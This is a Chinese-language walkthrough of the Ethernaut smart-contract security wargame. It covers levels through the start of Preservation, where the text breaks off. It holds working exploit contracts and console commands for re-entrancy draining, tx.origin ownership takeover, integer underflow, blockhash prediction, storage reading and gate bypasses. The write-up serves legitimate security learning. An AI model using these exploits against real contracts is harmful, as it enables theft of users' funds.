









Zeppelin Ethernaut WriteUp
Zeppelin-Ethernaut-WriteUp
参考文章：感谢大佬 xuing
本文单纯记录下自己的学（mo）习（yu）过程。
Hello Ethernaut
第一关很简单，首先是教你如何去使用MetaMask浏览器扩展程序。
使用基础命令查看信息：
player ：查看自己的地址。
getBalance(player) ：查看当前的以太币余额。
contract.abi() ：查看合约接口，即可以调用的函数。
help() ：查看控制台中其他可用命令。
解题：
contract.info()
// "You will find what you need in info1()."
contract.info1()
// "Try info2(), but with "hello" as a parameter."
contract.info2('hello')
// "The property infoNum holds the number of the next info method to call."
contract.infoNum()
// 42
contract.info42()
// "theMethodName is the name of the next method."
contract.theMethodName()
// "The method name is method7123949."
contract.method7123949()
// "If you know the password, submit it to authenticate()."
contract.abi
//查看合约接口，寻找password，发现存在一个名为password的函数
contract.password()
// "ethernaut0"
contract.authenticate('ethernaut0')
点击Submit instance，第一关over。
关键：
- contract.functionName() 调用合约函数
- contract.abi 查看函数接口
Fallback
通关要求：
获得合约所有权
将合余额减少为0
//withdraw函数是只能由合约拥有者才能访问的，功能是取出合约内部全部资金
function withdraw() public onlyOwner {
owner.transfer(this.balance);
}
//fallback函数，获得合约所有权
function() payable public {
require(msg.value > 0 && contributions[msg.sender] > 0);
owner = msg.sender;
}
解题：
//保证在执行fallBack函数时，能通过contributions[msg.sender] > 0的校验
contract.contribute({value:1})
//通过转账调用fallback函数。
contract.sendTransaction({value:1})
//将合约中的钱，全部收入囊中。
contract.withdraw()
关键：
- fallback函数：
- 没有名字，不能有参数，没有返回值
- 当调用的函数找不到时，就会调用默认的fallback函数
- 当我们使用
address.send(ether to send)向某个合约直接转帐时，由于这个行为没有发送任何数据，所以接收合约总是会调用fallback函数
Fallout
通过要求：
- 获取合约所有权
/* constructor */
function Fal1out() public payable {
owner = msg.sender;
allocations[owner] = msg.value;
}
//具有误导作用的constructor，仔细看会发现该函数并非构造函数，其名字中有个1
解题：
contract.Fal1out()
就是这么简单！
关键：
- 构造函数
- 0.4.22之前的版本 使用合约名来作为构造函数 function Fallout(){}
- 在0.4.22版本以及之后版本，构造函数使用 constructor() public{ }来定义
- 使用function定义构造函数，如果函数名出错，会导致本应是构造函数的函数变成一般函数，从而导致用户意外调用该函数，造成严重后果
危害详情见：从以太坊”MorphToken事件”看智能合约构造函数大小写编码错误漏洞
Coin Flip
通关条件：
- 连续猜对10次硬币翻转结果
很明显，直接调用函数去猜测成功率接近0，所以我们需要使用合约来获取结果，然后将正确结果传入题目合约。
解题：
POC1（抄的大佬的，2333333）
pragma solidity >=0.4.18 <0.6.0;
import "./CoinFlip.sol";
contract CoinFlipPoc {
CoinFlip expFlip;
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
constructor (address aimAddr) public {
expFlip = CoinFlip(aimAddr);
}
function hack() public {
uint256 blockValue = uint256(blockhash(block.number-1));
uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
bool guess = coinFlip == 1 ? true : false;
expFlip.flip(guess);
}
}
SafeMath.sol的一个GitHub地址：
https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/math/SafeMath.sol
直接复制一份题目源码，新建一个名为CoinFlip.sol的文字，粘贴进去。
需要注意的就是solidity版本，有些SafeMath.sol使用的是0.5.0版本，所以需要修改一下CoinFlip.sol中的版本。
由于每次猜测都做了if (lastHash == blockValue) 判断，所以我们猜测一次后需要等到新区块生成后进行下一次猜测，不能使用for循环进行自动猜测。
POC2（给大佬跪了，还是抄的）
let blockHash = function() {
return new Promise(
(resolve, reject) => web3.eth.getBlock('latest', (error, result) => {
if(!error)
resolve(result['hash']);
else
reject(error);
})
);
}
contract.flip(parseInt((await blockHash())[2], 16) > 8)
这种方式就不需要再去部署合约，直接在控制面版进行操作！妙啊！这就是大佬和我的区别啊！
使用 contract.consecutiveWins() 可以查看连胜次数。
contract.consecutiveWins()
Promise {<pending>}
__proto__: Promise
[[PromiseStatus]]: "resolved"
[[PromiseValue]]: t
c: [5] //此处数字代表猜对次数
e: 0
s: 1
__proto__: Object
关键：
- block.blockhash (function(uint) returns (bytes32)):指定块的哈希值—— 仅可用于最新的 256 个区块且不包括当前区块
- 0.4.22 版本开始已不推荐使用 ，由 blockhash(uint blockNumber) 代替
Telephone
通关条件：
- 获得合约所有权
if (tx.origin != msg.sender) {
owner = _owner;
}
由上面代码可以知道，获取所有权很简单，只要tx.origin不等于msg.sender就行。
简单来说就是我们调用一个合约，在由这个合约来调用题目合约。
POC（一个字，抄！）
pragma solidity >=0.4.18 <0.6.0;
import "./Telephone.sol";
contract TelephonePoc {
Telephone phone;
function TelephonePoc(address aimAddr) public {
phone = Telephone(aimAddr);
}
function attack(address _owner) public{
phone.changeOwner(_owner);
}
}
关键：
- tx.origin & msg.sender
- 使用tx.origin的所有者永远不可能是一个合约
- 使用msg.sender的所有者可能是一个合约
- 在D -> C -> B -> A 的简单调用链上，D为tx.origin，而B为msg.sender
- 可能导致钓鱼攻击
Token
通关条件：
- 获取超乎想象的token
uint类型，没有使用SafeMath，存在溢出漏洞。
初始状态有20个token，向外发送21个token，即可触发向下溢出漏洞。
解题：
contract.transfer(_address,21)
//随便填一个地址，只要不是自己的就行
(await contract.balanceOf(player)).toNumber()
//查看player的token余额
关键：
- 溢出漏洞
- 加法溢出
- 减法溢出
- 乘法溢出
- 使用SafeMath避免溢出漏洞
Delegation
通关条件：
- 获取合约所有权
起初以为只要把 pwn() 作为data传给Delegation就可以让它的fallback函数调用Delegate的pwn函数，事实证明，我还是too young,too simple!
然鹅，大佬是这样操作的：web3.sha3(“pwn()”).slice(0,10)。
思考了都没有结果，Google也没找到原因。
直到看到官方文档中的：
solidity官方文档
一个函数调用数据的前 4 字节，指定了要调用的函数。这就是某个函数签名的 Keccak（SHA-3）哈希的前 4 字节（高位在左的大端序）（译注：这里的“高位在左的大端序“，指最高位字节存储在最低位地址上的一种串行化编码方式，即高位字节在左）
这才明白了web3.sha3(“pwn()”).slice(0,10)这一连串操作是在干什么。（果然还是我太菜了！）
经过sha3加密的pwn()变成了一串16进制数，它的前4个字节就能代表pwn()这个函数，又由于前两个字符是0x,且16进制一位就是4位，所以4个字节等于32位，我们需要的字符数就是8+2=10，所以使用slice(0,10)来截取前10个字符，去掉0x,就是我们需要的函数签名的sha-3的前四字节。
将这个字节通过data传给合约，即可实现调用pwn()，完成！
解题：
//sha3的返回值前两个为0x，所以要切0-10个字符。
contract.sendTransaction({data: web3.sha3("pwn()").slice(0,10)});
关键：
- 1个字节=8位=16进制中的2个字符
- ABI说明文档中规定，一个函数调用数据的前4字节，指定了要调用的函数。
Force
通关目标：
- 使合约余额大于0
通过观察可以发现，题目合约中代码真可爱！（其实就是啥都没有！）
这个时候就要复习一下向合约发送ether的方法了
调用payable标识的函数：
pragma solidity ^0.4.0; contract supportPay{ function deposit() payable{ } } //直接调用deposit() //通过address.call(某个方法).value(要发送的ether)来实现的使用send直接向某地址转账: address.send(ether to send)
利用selfdestruct将自身所有ether发送给目标地址： selfdestruct(address);
因为目标合约没有任何能够接收ether的函数，所以我们只能强制将ether传入合约。
Poc：
pragma solidity ^0.4.18;
contract Force {
function Force() payable public {
}
function ForceSendEther(address _addr) payable public{
selfdestruct(_addr);
}
}
实际上不止这一种方法，还有：
- 创建前预先发送ether
- 为其挖矿
关键：
强制发送ether的集中方式：
- 通过自毁
- 创建前预先发送ether
- 挖矿
Vault
通关条件：
- 解锁保险库
查看源码可以发现调用 unlock函数并且输入正确的密码即可解锁。
由于合约中的所有内容对用户来说都是可见的，所以密码也应该是我们能访问到的。
下面是大佬们的POC。
Poc1：
web3.eth.getStorageAt(contract.address, 1, function(x, y){alert(web3.toAscii(y))});
Poc2：
function getStorageAt (address, idx) {
return new Promise (function (resolve, reject) {
web3.eth.getStorageAt(address, idx, function (error, result) {
if (error) {
reject(error);
} else {
resolve(result);
}
})
})}
await getStorageAt(instance, 1);
然后我们就可以得到密码： ”A very strong secret password :)“
解题：
contract.unlock("A very strong secret password :)")
通关后可以看到一些有用的信息
重要的是要记住，将变量标记为私有只会阻止其他合同访问它。标记为私有变量和局部变量的状态变量仍可公开访问。
为了确保数据是私有的，在将数据放入区块链之前需要对其进行加密。在这种情况下，解密密钥绝不应该在链上发送，因为寻找密钥的任何人都可以看到它。zk-SNARK提供了一种确定某人是否拥有秘密参数的方法，而不必揭露该参数。
关键：
- 将变量标记为私有只会阻止其他合同访问它。标记为私有变量和局部变量的状态变量仍可公开访问。
King
通关条件：
- 发送比当前奖金还大的ether成为King
- 提交实例后，保证King的身份不被收回
第一个条件：成为king
我们可以通过向合约发送1.1 ether 来获取King的位置
第二个条件：保证位置不被收回
收回King的时候，只要抛出异常，不让合约成功调用fallback函数就可以实现
Poc：
pragma solidity ^0.4.18;
contract KingPoc {
function KingPoc() payable {}
address instance_address = 0x63c97a345c05de5f415d0fc5bdfa75bded2c5cfe;
function hack() public {
instance_address.call.value(1.1 ether)();
}
function () public {
revert();
}
}
如果你以为到这就完了，那你肯定和我一样，吃惊的发现
*!@#(*&(@!(#*&(*$&!@#(*&(%@)#$(!@)#(*!@)(#@!(*^#(&()%*)#@(*!@)#(*&
(╯°□°)--︻╦╤─ - - - Oops! Looks like you haven't cracked this level just yet (╯°□°)--︻╦╤─ - - -
*&@#$(*!@_#)(+!@)_*$(@!$_)&*&%!@#$_)@(#_)@_)#(@(#)&(*$^#*&%^#$)(#@
经过一番折腾（大佬的WP），最终发现gas不够！！加加加！闭着眼睛按0，测试网络不缺ether！
更多Out of gas的相关信息，看大佬的文章：[solidity合约审计 - Out of gas的处理办法]
关键：
- out of gas问题
- revert()的使用
Re-entrancy
通关条件：
- 获取合约中所有资金
这关的漏洞有个很大的事件——THE DAO黑客事件，可以在搜索引擎上了解了解，这次事件导致了以太坊的分叉——一次充满争议的决策。
Poc:
pragma solidity ^0.4.18;
contract Reentrance {
mapping(address => uint) public balances;
function donate(address _to) public payable;
function balanceOf(address _who) public view returns (uint balance);
function withdraw(uint _amount) public;
function() public payable {}
}
contract ReentrancePoc {
Reentrance reInstance;
function getEther() public {
msg.sender.transfer(address(this).balance);
}
function ReentrancePoc(address _addr) public{
reInstance = Reentrance(_addr);
}
function callDonate() public payable{
reInstance.donate.value(msg.value)(this);
}
function attack() public {
reInstance.withdraw(1 ether);
}
function() public payable {
if(address(reInstance).balance >= 1 ether){
reInstance.withdraw(1 ether);
}
}
}
在这一关中，存在问题的主要重入攻击，通过构造一个恶意合约，在恶意合约的fallback函数中在次调用withdraw函数，反复执行取钱操作，知道题目合约余额为0。
在上面的Poc中，我们先使用callDonate存入一笔资金以满足调用withdraw的条件，这里需要注意的是在Remix中调用callDonate之前需要修改value为1 ether。

就是这里卡了我很久，因为对Remix使用的不熟悉，起初以为只有在部署合约的时候才会修改value的值，没有想过在函数调用的时候也需要用到。
除了这个问题，还有一个很大的问题，就是 OOG问题 ，即Out of gas。 在本地测试不会遇到。这是因为默认的Gas设置不能满足重入的需求，可以手动修改gas的量。

大佬还注意到了一个额外的问题：
顺便一提，本体其实还有整数下溢的问题。
await getBalance(contract.address)查看合约总余额。为0，则代表通关。
关键：
- out of gas 问题
- Remix的使用
- THE DAO事件
- 重入漏洞
Elevator
通关条件：
- 到达电梯顶部
Poc:
pragma solidity ^0.4.18;
contract Elevator {
bool public top;
uint public floor;
function goTo(uint _floor) public;
}
contract BuildingPoc {
Elevator ele;
bool t = true;
function isLastFloor(uint) view public returns (bool){
t = !t;
return t;
}
function attack(address _addr) public{
ele = Elevator(_addr);
ele.goTo(5);
}
}
简单分析一下：
题目中给出了一个接口Building，其中有一个isLastFloor函数，而合约Elevator中我们能调用的只有goTo函数。bool类型的top变量代表了是否到达顶层，要通过我们就需要将top赋予true，而在goTo函数中，top = building.isLastFloor(floor)，我们只要能将isLastFloor的返回值变为true即可通关。isLastFloor总共有两次返回值，只要第一次返回false，第二次返回true即可。
通过以后，题目给出了另一个解决办法：构建一个视图函数。例如 gasleft()
暂时还没想到该怎么利用，待更新··· ···
关键：
- 函数即使被修饰了pure、view等修饰符，虽然会有警告，但还是可以修改状态变量的。
Privacy
通关条件：
- 解锁合约
第一种方式是大佬的：
直接使用web3 api的 web3.eth.getStorageAt
Poc：
web3.eth.getStorageAt("0x605d336f17fc3a2e50e3f290977525a0f6a5fcc0", 0,function(x,y){console.info(y);})
0x000000000000000000000000000000000000000000000000000000d80cff0a01
web3.eth.getStorageAt("0x605d336f17fc3a2e50e3f290977525a0f6a5fcc0", 1,function(x,y){console.info(y);})
0x47dac1a874d4d1f852075da0347307d6fcfef2a6ca6804ffda7b54e02df5c359
web3.eth.getStorageAt("0x605d336f17fc3a2e50e3f290977525a0f6a5fcc0", 2,function(x,y){console.info(y);})
0x06080b7822355f604ab68183a2f2a88e2b5be84a34e590605503cf17aec66668
web3.eth.getStorageAt("0x605d336f17fc3a2e50e3f290977525a0f6a5fcc0", 3,function(x,y){console.info(y);})
0xd42c0162aa0829887dbd2741259c97ca54fb1a26da7098de6a3697d6c4663b93
web3.eth.getStorageAt("0x605d336f17fc3a2e50e3f290977525a0f6a5fcc0", 4,function(x,y){console.info(y);})
0x0000000000000000000000000000000000000000000000000000000000000000
大佬的分析：
根据 solidity 文档中的变量存储原则，evm 每一次处理 32 个字节，而不足 32 字节的变量相互共享并补齐 32 字节。
那么我们简单分析下题目中的变量们：bool public locked = true; //1 字节 01 uint256 public constant ID = block.timestamp; //32 字节 uint8 private flattening = 10; //1 字节 0a uint8 private denomination = 255;//1 字节 ff uint16 private awkwardness = uint16(now);//2 字节 bytes32[3] private data;那么第一个 32 字节就是由
locked、flattening、denomination、awkwardness组成，另外由于常量是无需存储的，所以从第二个 32 字节起就是 data。
那么 data[2] 就是0xd42c0162aa0829887dbd2741259c97ca54fb1a26da7098de6a3697d6c4663b93，
注意这里进行了强制类型转换将 data[2] 转换成了 bytes16，那么我们取前 16 字节即可。
执行 unlock 即可。
执行：contract.unlock(‘0xd42c0162aa0829887dbd2741259c97ca’)
over!
上面那篇文章使用的是contract.unlock(web3.toAscii(‘0xd42c0162aa0829887dbd2741259c97ca’))，不知道为什么会出现 ”ALERT: 交易出错. 合约代码执行异常. “错误，看啥时候能解决这个问题吧。
关键：
- 使用web3.getStorageAt读取指定地址数据
- evm每次处理32字节
- 根据 Solidity 优化规则，当变量所占空间小于 32 字节时，会与后面的变量共享空间，如果加上后面的变量也不超过 32 字节的话。
- 常量无需存储
- 使用了slice切割字符
Gatekeeper One
通关条件：
- 满足gateOne、gateTwo、gateThree的所有条件42
gateOne只要满足msg.sender != tx.origin即可，相信通过前面的关卡这时小菜一碟，只需要创建一个新合约，在合约内部再去调用题目合约即可。
gateTwo折磨了我很久很久，总是过不了，看了大佬的POC和分析还是过不了，最后才发现是自己的理解能力不够（太菜了）。gateTwo只要满足进行mod运算时的gas是8191的整数倍即可。
在Remix中可以利用debug功能来确定gas应该传入多少，如下图所示，现在本地测试网络进行测试：

然后调用attack进行debug：

在很多大佬的writeUp中所讲的走到DUP2这里， remaining gas应该是8191的整数倍。我开始也是这样的做的，但是这样计算出来的gas就和大佬们的不一样，在本地测试网络中能够跑通，在题目环境中就没办法跑通，这个困扰了我很长一段时间。后来才知道能够在Etherscan上查看每一步的gas消耗，如下图所示：
查看地址： https://ropsten.etherscan.io/vmtrace?txhash=0xff4a3aed71c20cfe9109403040d1e7f4cd9d77d62dc8cd3205066c3ca5e565c0 （将txhash后的交易hash改为自己的即可）

在查看了gas消耗情况之后发现，本地显示的gas和这里显示的有所区别，本地能够跑通的在这里会无法满足，在走到DUP2这一步时不是8191的整数倍。而满足了这里的整数倍的数据，在本地发现跑不通了，这个问题暂时不知道是什么情况，目前了解还是太少了，等日后有能力再来解决吧。
接下来是gateThree，gateThree有三个条件：
uint32(_gateKey) == uint16(_gateKey)
uint32(_gateKey) != uint64(_gateKey)
uint32(_gateKey) == uint16(tx.origin)
无符号整型可以转换成跟它大小相等或更大的字节类型，但反之不能 。
要满足第三个条件只需要_gatekey的前4字节全为0，后4字节为tx.origin的最后4字节，拿我的地址 0x2eb4081c419d1890eb0Af97ce5A9689Cad2fe3da 为例，构造一个0x0000e3da即可，这样可以发现同时满足了第一个条件。
还剩第二个条件，uint32(_gatekey)在与uint64进行比较时会由0x0000e3da转换为0x000000000000e3da,要使二者不相等只要gatekey的前半部分不为全0即可，我构造的是：0xFFFFFFFF0000733c（最后四个字节必须改为自己地址的最后4位)。
于是最终的Poc：
pragma solidity ^0.4.18;
contract GatekeeperOne {
address public entrant;
modifier gateOne() {
require(msg.sender != tx.origin);
_;
}
modifier gateTwo() {
require(msg.gas % 8191 == 0);
_;
}
modifier gateThree(bytes8 _gateKey) {
require(uint32(_gateKey) == uint16(_gateKey));
require(uint32(_gateKey) != uint64(_gateKey));
require(uint32(_gateKey) == uint16(tx.origin));
_;
}
function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
entrant = tx.origin;
return true;
}
}
contract GatekeeperOnePoc {
GatekeeperOne one;
function GatekeeperOnePoc(address _addr) public{
one = GatekeeperOne(_addr);
}
function attack() public{
one.call.gas(819315)(bytes4(keccak256("enter(bytes8)")), bytes8(0xFFFFFFFF0000733c));
}
}
我们可以通过await contract.entrant()来查看是否完成了通关条件，如果完成，返回值应该是你自己的地址。
关键：
- debug的使用
- etherscan gas消耗详情的查看
- uint比较的方式
- call对gas的控制以及函数的调用
Gatekeeper Two
通关条件：
- 与上关差不多，也是满足 modeifier的几个条件即可
gateOne没啥可说的，依旧是合约调用合约即可。
gateTwo直接引用大佬的分析吧。
gateTwo 中 extcodesize 用来获取指定地址的合约代码大小。这里使用的是内联汇编，来获取调用方(caller)的代码大小，一般来说，caller 为合约时，获取的大小为合约字节码大小，caller 为账户时，获取的大小为 0 。
条件为调用方代码大小为 0 ，但这又与 gateOne 冲突了。经过研究发现，当合约在初始化，还未完全创建时，代码大小是可以为0的。因此，我们需要把攻击合约的调用操作写在
constructor构造函数中。
Poc：
pragma solidity ^0.4.18;
contract GatekeeperTwo {
address public entrant;
modifier gateOne() {
require(msg.sender != tx.origin);
_;
}
modifier gateTwo() {
uint x;
assembly { x := extcodesize(caller) }
require(x == 0);
_;
}
modifier gateThree(bytes8 _gateKey) {
require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
_;
}
function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
entrant = tx.origin;
return true;
}
}
contract GatekeeperTwoPoc {
uint64 public mask = 0xFFFFFFFFFFFFFFFF;
function GatekeeperTwoPoc(address _addr){
GatekeeperTwo target = GatekeeperTwo(_addr);
uint64 res = uint64(keccak256(this)) ^ mask;
target.enter(bytes8(res));
}
}
关键：
- extcidesize获取指定地址合约代码大小
- 地址为合约时，获取大小为合约字节码大小
- 地址为账户时，获取的大小为0
- 当合约在初始化，还未完全创建时，代码大小是可以为0的
- 异或两次后得到的数据是原数据
Naught Coin
通关条件：
- 使token变为0
首先我们需要知道什么是ERC20,然后，直接看大佬的分析吧！
既然子合约没有什么问题，那我们看看 import 的父合约
StandardToken.sol，其其实根据 ERC20 的标准我们也知道，转账有两个函数，一个transfer一个transferFrom，题目中代码只重写了transfer函数，那未重写transferFrom就是一个可利用的点了。直接看看StandardToken.sol代码：contract StandardToken { using ERC20Lib for ERC20Lib.TokenStorage; ERC20Lib.TokenStorage token; ... function transfer(address to, uint value) returns (bool ok) { return token.transfer(to, value); } function transferFrom(address from, address to, uint value) returns (bool ok) { return token.transferFrom(from, to, value); } ... }跟进
ERC20Lib.sol：library ERC20Lib { ... function transfer(TokenStorage storage self, address _to, uint _value) returns (bool success) { self.balances[msg.sender] = self.balances[msg.sender].minus(_value); self.balances[_to] = self.balances[_to].plus(_value); Transfer(msg.sender, _to, _value); return true; } function transferFrom(TokenStorage storage self, address _from, address _to, uint _value) returns (bool success) { var _allowance = self.allowed[_from](msg.sender); self.balances[_to] = self.balances[_to].plus(_value); self.balances[_from] = self.balances[_from].minus(_value); self.allowed[_from](msg.sender) = _allowance.minus(_value); Transfer(_from, _to, _value); return true; } ... function approve(TokenStorage storage self, address _spender, uint _value) returns (bool success) { self.allowed[msg.sender](_spender) = _value; Approval(msg.sender, _spender, _value); return true; } }可以直接调用这个
transferFrom即可了。但是transferFrom有一步权限验证，要验证这个msg.sender是否被_from（实际上在这里的情景的就是自己是否给自己授权了），那么我们同时还可以调用 approve 给自己授权。Poc:
await contract.approve(player,toWei(1000000)) await contract.transferFrom(player,contract.address,toWei(1000000))
关键：
- ERC20的转账操作函数
Preservation
通关条件：
- 获得合约所有权
delegatecall：进行函数调用时代码是在调用函数的环境里执行
call：call调用其他合约的函数时，代码是在被调用的合约的环境里执行的
for example：
pragma solidity ^0.4.18;
contract a {
uint a1;
function a0(address test) public {
test.delegatecall(bytes4(keccak256("b0()")));
}
function getA1() returns(uint) {
return a1;
}
}
contract b {
uint b1;
function b0() public {
b1 = 1111;
}
function getB1() public returns(uint) {
return b1;
}
}
